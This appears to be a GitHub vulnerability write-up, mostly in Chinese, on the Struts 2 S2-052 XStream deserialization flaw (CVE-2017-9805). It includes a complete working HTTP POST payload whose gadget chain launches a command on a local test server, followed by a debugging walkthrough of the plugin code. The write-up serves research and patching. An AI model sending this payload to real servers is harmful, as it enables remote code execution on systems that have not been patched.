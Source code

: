 # S2-052 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | A RCE attack is possible when using the Struts REST plugin with XStream handler to deserialise XML requests |
| Maximum security rating | Critical                                                     |
| Recommendation          | Upgrade to [Struts 2.5.13](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.13) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12     |
| Reporter                | Man Yue Mo <mmo at semmle dot com> ([lgtm.com](http://lgtm.com/) / Semmle). More information on the [lgtm.com](http://lgtm.com/) blog: https://lgtm.com/blog |
| CVE Identifier          | CVE-2017-9805                                                |

## Problem

Struts REST plugin 使用的`XStreamHandler`类在对`XML`反序列化时未进行任何的过滤，可造成远程代码执行。

## Environment

| Struts2 Version | Struts-2.3.24            |
| :-------------- | :----------------------- |
| Web Server      | Tomcat 8.5.53            |
| IDE             | IDEA 2020.1.1 ULTIMATE   |
| Demo            | Struts2官方rest-showcase |

## POC

![image-20200813153853109](img/image-20200813153853109.png)

payload:

```xml
POST /struts2_rest_showcase_war_exploded/orders.xhtml HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Content-Length: 2359

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>calc</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

## Debug

根据公开的漏洞信息，定位至`struts2-rest-plugin`下面的`XStreamHandler`类。不难看出`toObject`方法就是进行反序列化的，`fromXML`方法在对xml反序列化时未进行类型判断导致代码执行。有兴趣可以细跟一下`fromXML`，这里只简单调试下`struts2-rest-plugin`对XML的处理过程。

在`toObject`方法处下断点，发送`payload`触发：

![image-20200813164225806](img/image-20200813164225806.png)

根据栈帧，`XStreamHandler`上一层为`ContentTypeInterceptor`。点击Drop Frame 进入`ContentTypeInterceptor`。

![image-20200813164815947](img/image-20200813164420579.png)

首先是获取`HttpServletRequest`对象，并传入`getHandlerForRequest`。顾名思义，`getHandlerForRequest`是根据`HttpServletRequest`对象的类型获取对应的Handler。

![image-20200813163143483](img/image-20200813163143483.png)

当`ContentType`为`application/xml`的时候，返回`XStreamHandler`这个类来处理。

![image-20200813170006591](img/image-20200813170006591.png)

所以`handler.toObject(reader, target)`方法即进入了`XStreamHandler`类的`toObject`方法，执行反序列化操作触发漏洞。

## Reference

- [S2-052](https://cwiki.apache.org/confluence/display/WW/S2-052)
- [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md)
- [https://blog.csdn.net/u011721501/article/details/77867633](https://blog.csdn.net/u011721501/article/details/77867633)
